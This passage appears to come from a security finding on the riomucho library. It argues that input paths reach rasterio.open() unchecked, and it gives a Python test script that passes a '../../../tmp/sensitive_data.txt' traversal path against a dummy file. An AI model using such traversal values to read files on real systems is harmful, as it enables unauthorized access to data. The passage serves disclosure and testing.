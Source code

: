     ```
    3. `rasterio.open()` function from the `rasterio` library will directly open the file path provided, including paths with traversal sequences like `..`.
* **Security Test Case:**
    1. **Setup:** Create a directory `/tmp/test_rio_mucho_input` and put a valid GeoTIFF file named `input1.tif` inside it. Also, create a sensitive file `/tmp/sensitive_data.txt` outside this directory.
    2. **Script:** Create a python script `test_input_traversal.py`:
    ```python
    import riomucho
    import rasterio

    def read_function_simple(data, window, ij, g_args):
        return data[0]

    input_dir = "/tmp/test_rio_mucho_input"
    output_path = "/tmp/test_output.tif"
    sensitive_file_path = "../../../tmp/sensitive_data.txt" # Path traversal to sensitive file

    # Create dummy sensitive data file
    with open("/tmp/sensitive_data.txt", "w") as f:
        f.write("This is sensitive information.")

    # Use path traversal in input paths
    input_paths = [sensitive_file_path, f"{input_dir}/input1.tif"]

    try:
        with riomucho.RioMucho(
            input_paths,
            output_path,
            read_function_simple
        ) as rm:
            rm.run(1)
        print("RioMucho run completed (potentially vulnerable)")
    except rasterio.errors.RasterioIOError as e:
        if "sensitive_data.txt" in str(e):
            print("Vulnerability confirmed: Attempted to open sensitive_data.txt")
        else:
            print(f"RioMucho run failed with RasterioIOError: {e}")
    except Exception as e:
        print(f"RioMucho run failed with error: {e}")

    # Cleanup dummy sensitive data file
    import os
    os.remove("/tmp/sensitive_data.txt")

    ```
    3. **Run:** Execute the script `python test_input_traversal.py` from a location such that `../../../tmp/sensitive_data.txt` correctly resolves to `/tmp/sensitive_data.txt`.
    4. **Observe:** If the output is "Vulnerability confirmed: Attempted to open sensitive_data.txt", it indicates that `rasterio.open()` attempted to open the sensitive file due to path traversal in the input path, confirming the vulnerability.

